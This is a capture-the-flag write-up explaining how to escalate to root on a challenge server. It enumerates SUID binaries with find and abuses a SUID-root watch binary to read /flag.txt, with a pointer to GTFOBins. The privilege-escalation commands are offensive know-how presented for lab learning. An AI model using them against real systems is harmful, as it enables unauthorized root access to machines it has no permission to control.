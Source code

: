 [back to home](./index.html)

# MARTINA Challenge #2 - Penance

This challenge can be found when Martina makes a run for it.

## The Setup

> Help Martina break into Penance's servers!
>
> Try to gain root level access to the system and read the /flag.txt file. 

You are also given a command you can use to gain user access to a remote server using ssh.

## The Privilege Escalation

Once we SSH into the server as a regular user, we need to find a way to escalate our privileges to root and read `/flag.txt`.

The first thing to check is SUID binaries - programs that run with the permissions of their owner (often root) regardless of who executes them:

```bash
$ find / -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/watch
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
```

Most of these are standard system binaries, but `/usr/bin/watch` stands out as potentially exploitable. The `watch` command normally runs other commands repeatedly, but with the `-x` flag it can execute commands directly.

Since `watch` has the SUID bit set and is owned by root, we can use it to read files with root privileges:

```bash
$ watch -x cat /flag.txt
```

This executes `cat /flag.txt` with root permissions, giving us the flag!

<fieldset class="hacker-note">
  <legend>Hacker Mindset</legend>
  <p>SUID binaries are a classic privilege escalation vector. Always check for non-standard binaries with SUID bits - legitimate system commands like `passwd` need these permissions, but tools like `watch` usually don't. Sites like <a href="https://gtfobins.github.io/">GTFOBins</a> catalog how to exploit common binaries when they have elevated permissions.</p>
</fieldset>
